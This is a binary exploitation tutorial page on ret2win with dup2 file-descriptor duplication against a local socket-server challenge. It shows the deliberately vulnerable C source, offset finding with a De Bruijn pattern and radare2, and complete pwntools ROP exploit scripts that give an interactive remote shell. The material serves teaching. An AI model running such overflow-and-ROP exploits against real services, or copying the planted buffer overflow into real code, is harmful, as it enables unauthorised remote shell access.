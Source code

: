 ```yaml
---
description: Duplicating the Descriptors
---
```


# Exploit

## Source

I'll include `source.c`, but most of it is socket programming derived from [here](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f99/www/class26/tcpserver.c). The two relevent functions - `vuln()` and `win()` - I'll list below.

{% file src="../../../.gitbook/assets/sockets.zip" caption="Sockets and File Descriptors" %}

```c
void vuln(int childfd) {
    char buffer[30];

    read(childfd, buffer, 500);
    write(childfd, "Thanks!", 8);
}

void win() {
    system("/bin/sh");
}
```

Quite literally an easy [ret2win](../ret2win.md). 

## Exploitation

Start the binary with `./vuln 9001`.

Basic setup, except it's a remote process:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)
```

### Testing Offset

I pass in a basic [De Bruijn](../de-bruijn-sequences.md) pattern and pause directly before:

```python
payload = b'AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFA'

pause()
p.sendline(payload)
```

Once the `pause()` is reached, I hook on with radare2 and set a breakpoint at the `ret`.

```text
$ r2 -d -A $(pidof vuln)

[0x7f741033bdee]> pdf @ sym.vuln
[...]
└           0x0040126b      c3             ret
[0x7f741033bdee]> db 0x0040126b
[0x7f741033bdee]> dc
hit breakpoint at: 40126b
[0x0040126b]> pxq @ rsp
0x7ffd323ee6f8  0x41415041414f4141  0x4153414152414151   AAOAAPAAQAARAASA
[...]
[0x0040126b]> wopO 0x41415041414f4141
40
```

Ok, so the offset is `40`.

### Generate Exploit

Should be fairly simple, right?

```python
payload = flat(
    'A' * 40,
    elf.sym['win']
)

p.sendline(payload)
p.interactive()
```

What the hell?

![](../../../.gitbook/assets/image%20%2849%29.png)

But if we look on the server itself:

![](../../../.gitbook/assets/image%20%2848%29.png)

A shell was popped there! This is the [file descriptor issue](./) we talked about before.

So we have a shell, but no way to control it. Time to use `dup2`.

{% hint style="info" %}
I've simplified this challenge a lot by including a call to `dup2()` within the vulnerable binary, but normally you would leak libc via the [GOT](../aslr/ret2plt-aslr-bypass.md) and then use libc's `dup2()` rather than the PLT; this walkthrough is about the basics, so I kept it as simple as possible.
{% endhint %}

### Duplicating File Descriptors

As we know, we need to call `dup2(newfd, oldfd)`. `newfd` will be `4` \(our connection fd\) and `oldfd` will be `0` and `1` \(we need to call it twice to redirect both`stdin` and `stdout`\). Knowing what you do about [calling conventions](../return-oriented-programming/exploiting-calling-conventions.md), have a go at doing this and then caling `win()`. The answer is below.

### Using dup2\(\)

Since we need two parameters, we'll need to find a gadget for RDI and RSI. I'll use `ROPgadget` to find these.

```text
$ ROPgadget --binary vuln | grep "pop rdi"
0x000000000040150b : pop rdi ; ret

$ ROPgadget --binary vuln | grep "pop rsi"
0x0000000000401509 : pop rsi ; pop r15 ; ret
```

Plonk these values into the script.

```python
POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 
```

Now to get all the calls to `dup2()`.

```python
payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

And wehey - the file descriptors were successfully duplicated!

![](../../../.gitbook/assets/image%20%2847%29.png)

## Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

POP_RDI = 0x40150b 
POP_RSI_R15 = 0x401509 

payload = flat(
    'A' * 40,

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    0,                  # oldfd -> stdin
    0,                  # junk r15
    elf.plt['dup2'],

    POP_RDI,
    4,                  # newfd
    POP_RSI_R15,
    1,                  # oldfd -> stdout
    0,                  # junk r15
    elf.plt['dup2'],

    elf.sym['win']
)

p.sendline(payload)
p.recvuntil('Thanks!\x00')
p.interactive()
```

## Pwntools' ROP

These kinds of chains are where pwntools' ROP capabilities really come into their own:

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = remote('localhost', 9001)

rop = ROP(elf)
rop.raw('A' * 40)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.win()

p.sendline(rop.chain())
p.recvuntil('Thanks!\x00')
p.interactive()
```

Works perfectly!

